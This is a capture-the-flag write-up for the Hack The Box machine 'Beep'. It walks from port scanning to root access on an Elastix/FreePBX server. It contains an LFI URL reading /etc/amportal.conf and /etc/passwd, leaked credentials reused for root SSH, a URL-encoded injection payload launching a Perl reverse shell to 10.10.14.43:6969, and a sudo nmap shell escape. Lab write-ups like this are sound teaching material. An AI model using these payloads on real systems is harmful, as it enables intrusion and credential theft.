

# recon
- ping -> linux box
- Apache/2.2.3 (CentOS)
```
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
878/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt
```
service version
```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://beep.htb/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: TOP PIPELINING IMPLEMENTATION(Cyrus POP3 server v2) STLS USER APOP AUTH-RESP-CODE LOGIN-DELAY(0) RESP-CODES EXPIRE(NEVER) UIDL
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed OK THREAD=ORDEREDSUBJECT URLAUTHA0001 SORT=MODSEQ SORT LITERAL+ CHILDREN UNSELECT NO ANNOTATEMORE ACL MULTIAPPEND LISTEXT QUOTA CATENATE THREAD=REFERENCES UIDPLUS ATOMIC RENAME CONDSTORE MAILBOX-REFERRALS RIGHTS=kxte IDLE X-NETSCAPE IMAP4rev1 LIST-SUBSCRIBED IMAP4 STARTTLS BINARY NAMESPACE ID
443/tcp   open  ssl/https?
|_ssl-date: 2020-11-01T15:56:53+00:00; +1h02m40s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
```
## 80/tcp    open  http  Apache httpd 2.2.3 + 443/tcp   open  ssl/https?
- visit port 80 -> redirect to port 443. No interesting info in cert.
- 443: Elastix
- Apache/2.2.3 (**CentOS**)
- gobuster
```
/admin (Status: 301)
/cgi-bin/ (Status: 403)
/configs (Status: 301)
/favicon.ico (Status: 200)
/help (Status: 301)
/images (Status: 301)
/lang (Status: 301)
/libs (Status: 301)
/mail (Status: 301)
/modules (Status: 301)
/panel (Status: 301)
/recordings (Status: 301)
/robots.txt (Status: 200)
/static (Status: 301)
/themes (Status: 301)
/var (Status: 301)
/vtigercrm (Status: 301)
```
- `/admin` - leave password empty -> **FreePBX 2.8.1.4**
- `/configs/` 
```
[TXT]	default.conf.php	01-Nov-2011 21:56 	3.1K
[TXT]	email.conf.php	01-Nov-2011 21:56 	2.5K
[TXT]	languages.conf.php	01-Nov-2011 21:56 	2.8K
```
- `/mail` Welcome to RoundCube Webmail
- `/help` -> system -> backup -> .tar from 2010
- `/vtigercrm` : vtiger CRM 5.1.0


let do searchsploit for Elastix
```console
kali@kali:/opt$ searchsploit Elastix
Elastix 2.2.0 - 'graph.php' Local File Inclusion                | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                               | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                              | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution          | php/webapps/18650.py
```
I view `Elastix 2.2.0 - 'graph.php' Local File Inclusion ` and it seem like this could works. so lets visit
```
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```
view source to see the content with line break!
```
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```
yep we got admin credential `admin:jEhdIekWmdjE`. let log into `Elastix`, ofc it works!! on the admin page I found this!


# Root 1st way
seem like `jEhdIekWmdjE` is used repeatedly. I wonder if it use somewhere else such as password for ssh.
I vist `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action` to see all users in the server. the user with login will have `/bin/bash` ash there home dir.
```console
[10.10.14.43]-kali@kali:~/HTB/beep$ nano users.txt
[10.10.14.43]-kali@kali:~/HTB/beep$ grep 'bin/bash' users.txt >> userwithlogin.txt
[10.10.14.43]-kali@kali:~/HTB/beep$ cat userwithlogin.txt 
root:x:0:0:root:/root:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```
So let try too ssh to server as root
```console
[10.10.14.43]-kali@kali:/opt$ ssh root@beep.htb
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```
okey let google the error, read this [stackexchange](https://unix.stackexchange.com/questions/402746/ssh-unable-to-negotiate-no-matching-key-exchange-method-found). now try again as `root:jEhdIekWmdjE`
```
[10.10.14.43]-kali@kali:/opt$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c 3des-cbc root@beep.htb
The authenticity of host 'beep.htb (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'beep.htb,10.10.10.7' (RSA) to the list of known hosts.
root@beep.htb's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# ls
anaconda-ks.cfg		   install.log	       postnochroot  webmin-1.570-1.noarch.rpm
elastix-pr-2.2-1.i386.rpm  install.log.syslog  root.txt
[root@beep ~]# cat root.txt
[root@beep ~]# cat /home/fanis/user.txt 
```
# Root 2nd way: FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution
back when we were looking for exploit in `searchsploit`. I saw `FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution          | php/webapps/18650.py`. I was taking a look at it and try it with extention 1000 which give me this payload.
```
https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=1000@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.43%3a6969%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
```
seem like the extention is not working. After some googleing, I found out that we need to change then extention to the one that is working. **IPPSEC** was talking about a tool cal [Sipvicious](https://github.com/EnableSecurity/sipvicious). that can be use to find the enable/avalible extension. He also mention that you could visite `/panel/` which we found using `gobuster` but my web browser is missing some flash extention so I skiped that part.

we can use `svwar.py - SIPvicious extension line scanner`
```console
[10.10.14.43]-kali@kali:/opt/sipvicious$ sipvicious_svwar -m INVITE -e1-1000 10.10.10.7
WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
+-----------+----------------+
| Extension | Authentication |
+===========+================+
| 233       | reqauth        |
+-----------+----------------+
```
now let modify our payload, change to `callmenum=233`
```
```
https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.43%3a6969%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
```
open nc listen and visit the ablow site
```console
10.10.14.43]-kali@kali:~/HTB/popcorn$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.10.14.43] from (UNKNOWN) [10.10.10.7] 55522
whoami
asterisk
```
so back to our exploit it told us that `asterisk` is allow to run nmap as root with nopasswd. We will use nmap interactive mode to spawn shell!
```console
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
whoami
root
```